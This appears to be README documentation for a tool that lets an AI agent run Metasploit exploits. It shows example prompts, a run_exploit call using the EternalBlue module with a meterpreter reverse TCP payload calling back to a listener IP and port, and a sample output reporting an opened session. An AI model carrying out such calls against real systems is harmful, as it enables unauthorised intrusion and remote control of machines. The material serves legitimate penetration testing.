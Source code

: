 **Example Usage**:

```python
# Natural language with AI
"Exploit 192.168.1.100 using EternalBlue"
"Run ms17_010 against 10.0.0.5 with reverse TCP to my IP"
"Check if target is vulnerable before exploiting"

# Direct tool call
run_exploit(
    module_name="exploit/windows/smb/ms17_010_eternalblue",
    options={"RHOSTS": "192.168.1.100"},
    payload_name="windows/x64/meterpreter/reverse_tcp",
    payload_options={"LHOST": "192.168.1.10", "LPORT": 4444},
    check_vulnerability=True
)
```

**Sample Output**:
```json
{
  "status": "success",
  "message": "Exploit module exploit/windows/smb/ms17_010_eternalblue completed via console (exploit). Session 1 detected.",
  "session_id_detected": 1,
  "module": "exploit/windows/smb/ms17_010_eternalblue",
  "options": {"RHOSTS": "192.168.1.100"},
  "payload_name": "windows/x64/meterpreter/reverse_tcp",
  "payload_options": {"LHOST": "192.168.1.10", "LPORT": 4444}
}
```

**Key Options**:
- `RHOSTS` - Target IP address(es)
- `RPORT` - Target port
- `LHOST` - Your listening IP (for reverse connections)
- `LPORT` - Your listening port
- `SSL` - Use SSL/TLS (boolean)
- `TARGET` - Specific target type (if applicable)

**Execution Modes**:
- **Synchronous** (`run_as_job=False`): Waits for completion, returns output
- **Asynchronous** (`run_as_job=True`): Returns job ID immediately, polls for session

**Use Cases**:
- Gaining initial access to target systems
- Testing vulnerability patches
- Demonstrating security weaknesses
- Penetration testing engagements

**Safety Features**:
- `check_vulnerability=True` runs a check before exploitation
- Aborts if target appears not vulnerable
- Timeout protection prevents hanging

---